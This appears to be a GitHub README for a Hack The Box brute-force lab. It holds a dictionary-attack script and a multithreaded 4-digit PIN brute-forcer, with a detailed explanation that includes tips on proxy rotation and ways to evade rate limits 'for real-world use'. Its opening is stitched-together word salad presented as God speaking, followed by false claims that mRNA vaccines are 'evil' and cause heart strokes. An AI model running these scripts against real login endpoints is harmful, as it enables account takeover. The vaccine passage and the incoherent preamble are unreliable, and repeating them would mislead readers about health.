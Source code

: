 # HTB_Login_bruteforce

Today's 29-05-2025 God's speaking: theres no place like home I'm done driving guilty place unsung hero are you insane bye you talkin' to me ahh thats much better failure to communicate Catastrophic Success by the way listen buddy CIA God smack foul white trash bad ol puddytat I'm tired of this economy straighten up BBC crash and burn this might end badly what do you want nerd money It grieves me how come Give me praise Russia

Burte-force attack is can be utilized when the randomity of God reached to human being. Mortile human likes to create their fortless against God. What I mean is When C virus occured from China, the medical companies has developed vaccine to stand against God's oracle. Eventually, side-effect of evil irrversible MRNA vaccine could cause servere heart stroke. This is consequence of the people who dose not decided to follow God's will. I am talking Brute-force attack God's will and punishment of God. 

Here is a code given by the HTB. 

import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()
for password in passwords:
    print(f"Attempted password: {password}")

    
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break

In some reason the ffuf did not worked out on this URL 
crunch 4 4 0123456789 -o 4-digits.txt
ffuf -u "http://0.0.0.0.:00000/pin?pin=FUZZ" -w 4-digits.txt

They all have returned 401 error.

The code below uses special techniques that allow repentants
to use Multithreading without time.sleep(), artificial Delays

import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

ip = "0.0.0.0"  # Target IP
port = 12345           # Target port

def try_pin(pin):
    formatted_pin = f"{pin:04d}"
    try:
        response = requests.get(
            f"http://{ip}:{port}/pin?pin={formatted_pin}",
            timeout=3  # Prevents hanging on slow responses
        )
        if response.ok and 'flag' in response.json():
            return formatted_pin, response.json()['flag']
    except (requests.RequestException, ValueError) as e:
        pass  # Skip errors (timeouts, JSON decode fails)
    return None

def brute_force():
    with ThreadPoolExecutor(max_workers=50) as executor:  # Adjust workers based on server tolerance
        futures = [executor.submit(try_pin, pin) for pin in range(10000)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                pin, flag = result
                print(f"\n[+] Correct PIN found: {pin}")
                print(f"[+] Flag: {flag}")
                executor.shutdown(wait=False)  # Stop all threads immediately
                return

if __name__ == "__main__":
    print("Starting brute-force attack...")
    brute_force()

1. Multithreading with ThreadPoolExecutor
What It Does:
Instead of testing PINs one-by-one (sequentially), the script sends multiple concurrent requests using a thread pool.

Example: If max_workers=50, it tests 50 PINs simultaneously, drastically reducing total time.

Key Components:
ThreadPoolExecutor: Manages a pool of worker threads.

executor.submit(): Queues a PIN to be tested by an available thread.

as_completed(): Yields futures (thread results) as they finish, out of order.

Why It’s Faster:
Sequential code (original) takes ~10,000 requests × latency (e.g., 0.1s) = 16+ minutes.

Multithreaded (50 workers) takes ~(10,000/50) × latency ≈ 20 seconds.

2. No time.sleep() or Artificial Delays
Original Problem:
Adding time.sleep() between requests slows down brute-forcing (e.g., sleep(0.1) → 16+ minutes total).

Unnecessary: Delays are only needed if the server rate-limits (handled later via max_workers).

Solution:
Remove all delays: Let threads run at full speed.

Control throughput via max_workers:

Fewer workers (e.g., max_workers=10) → Lower server load.

More workers (e.g., max_workers=100) → Faster but riskier (may trigger bans).

3. Error Handling and Timeouts
Critical Improvements:
try/except Blocks:

Catches network errors (e.g., timeouts, connection resets) silently to avoid crashes.

Skips invalid JSON responses (e.g., if the server returns HTML on errors).

timeout=3 in requests.get():

Prevents threads from hanging indefinitely on unresponsive servers.

Frees up threads quickly for new PINs.

Why It Matters:
Without timeouts, a single slow request could stall the entire thread pool.

Silent error handling ensures the script continues even if some requests fail.

4. Early Termination
How It Works:
When a thread finds the correct PIN ('flag' in response), it returns the result.

executor.shutdown(wait=False):

Immediately stops all threads (no wasted requests after success).

wait=False kills pending threads aggressively.

Efficiency Gain:
Avoids testing all 10,000 PINs if the correct one is found early (e.g., at PIN 0427).

5. Thread Safety and Shared State
Design Choices:
No shared variables: Each thread works independently (no locks needed).

Stateless: Threads don’t modify global data; results are returned via futures.

Why It’s Safe:
Threads only read the pin value and send HTTP requests.

Results are collected thread-safely by as_completed().

6. Optional: Dynamic Adjustments
For Real-World Use:
Proxy Rotation: Add proxies to requests.get() if the server bans IPs.

Rate Limiting: Reduce max_workers if the server rejects requests (e.g., HTTP 429).

Progress Tracking:

python
if pin % 100 == 0:
    print(f"Progress: {pin}/10000", end="\r")
Performance Comparison
Metric	Original Code	Enhanced Code (50 threads)
Total Time	~16 minutes	~20 seconds
CPU Usage	Low (single-threaded)	High (parallel)
Network Overhead	Low	Moderate (50 concurrent)
Robustness	Fragile (no error handling)	Resilient (timeouts/retries)
When to Use This Approach
Fast brute-forcing: Ideal for CTFs or pentesting where speed matters.

Servers without rate-limiting: If the target allows high concurrency.

Avoids ffuf limitations: When you need custom logic (e.g., JSON parsing).

Final Notes
Adjust max_workers based on server tolerance (start low, increase gradually).

Monitor for bans (HTTP 429/403); if triggered, add proxies or reduce threads.

For rate-limited targets, consider adding a small delay per thread (e.g., time.sleep(0.05) inside try_pin).

This script balances speed, reliability, and simplicity—perfect for attacking 4-digit PIN endpoints efficiently.




        
